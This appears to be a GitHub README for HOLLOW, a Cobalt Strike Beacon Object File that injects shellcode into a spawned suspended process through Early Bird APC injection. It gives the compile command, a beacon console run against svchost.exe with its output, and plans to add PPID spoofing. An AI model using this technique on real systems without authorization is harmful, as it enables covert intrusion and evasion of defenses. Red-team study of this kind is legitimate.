 ## Authors:
+ Bobby Cooke ([@0xBoku](https://twitter.com/0xBoku))
+ Justin Hamilton ([@JTHam0](https://twitter.com/JTHam0))
+ Octavio Paguaga ([@OakTree__](https://twitter.com/OakTree__))
+ Matt Kingstone ([@n00bRage](https://twitter.com/n00bRage))

## HOLLOW - Cobalt Strike BOF
Beacon Object File (BOF) that spawns an arbitrary process from beacons memory in a suspended state, inject shellcode, hijack main thread with APC, and execute shellcode; using the Early Bird injection method taught by @SEKTOR7net in RED TEAM Operator: Malware Development Intermediate.
- [Sektor7 RED TEAM Operator: Malware Development Intermediate Course](https://institute.sektor7.net/courses/rto-maldev-intermediate/463257-code-injection/1435343-earlybird)

### Compile with x64 MinGW (only tested from macOS):
```bash
x86_64-w64-mingw32-gcc -c hollow.c -o hollow.o
```

### Run from Cobalt Strike Beacon Console
+ After compile import the hollow.cna script into Cobalt Strikes Script Manager
```bash
beacon> help hollow
Synopsis: hollow /path/to/hollow/pe /local/path/to/shellcode.bin
beacon> hollow svchost.exe /Users/bobby.cooke/popCalc.bin
[*] HOLLOW - EarlyBird Remote Process Shellcode Injector (@0xBoku|github.com/boku7) | (@JTHam0|github.com/Rodion0) 
[*]             (@n00bRage|github.com/josephkingstone) | (@OakTree__|github.com/git-oaktree)
[*] Reading shellcode from: /Users/bobby.cooke/popCalc.bin
[+] Success - Spawned process:  5464 (PID)
[+] Success - Allocated RE memory in remote process 5464 (PID) at: 0x000001A83BEC0000
[+] Success - Wrote 280 bytes to memory in remote process 5464 (PID) at 0x000001A83BEC0000
[+] Success - APC queued for main thread of 5464 (PID) to shellcode address 0x000001A83BEC0000
[+] Success - Your thread was resumed and your shellcode is being executed within the remote process!
```

### To Do List
+ Refactor code to make it more modular/clean
+ Implement this into github.com/boku7/SPAWN
  - Combine this with the PPID spoofing and blockdll features of SPAWN

### Credits / References
+ Credit/shoutout to: Adam Chester @_xpn_ + @SEKTOR7net + Raphael Mudge
##### Sektor7 Malware Dev Essentials course - learned how to do the early bird injection technique
+ https://institute.sektor7.net/red-team-operator-malware-development-essentials
##### Raphael Mudge - Beacon Object Files - Luser Demo
+ https://www.youtube.com/watch?v=gfYswA_Ronw
##### Cobalt Strike - Beacon Object Files
+ https://www.cobaltstrike.com/help-beacon-object-files
##### BOF Code References
+ https://github.com/odzhan/injection/blob/master/syscalls/inject_dll.c
+ https://github.com/ajpc500/BOFs/blob/main/SyscallsInject/entry.c
+ https://github.com/ajpc500/BOFs/blob/main/SyscallsInject/syscalls_inject.cna

